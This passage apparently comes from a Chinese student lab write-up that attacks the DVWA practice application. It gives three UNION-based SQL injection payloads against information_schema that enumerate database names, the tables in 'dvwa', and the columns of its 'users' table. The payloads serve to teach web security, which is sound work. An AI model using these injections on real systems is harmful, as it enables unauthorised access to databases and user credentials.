 

⑥获取数据库名、数据表名、字段名

 数据库名

```
1' or 1 = 1 union select 'info',schema_name FROM information_schema.SCHEMATA # 
```

![image-20250625145627360](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625145627360.png)



数据表名

```
0' union select 'info',table_name FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'dvwa' #
```

![image-20250625145848390](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625145848390.png)



字段名

```
0' union select 'info',column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND table_name = 'users'#
```
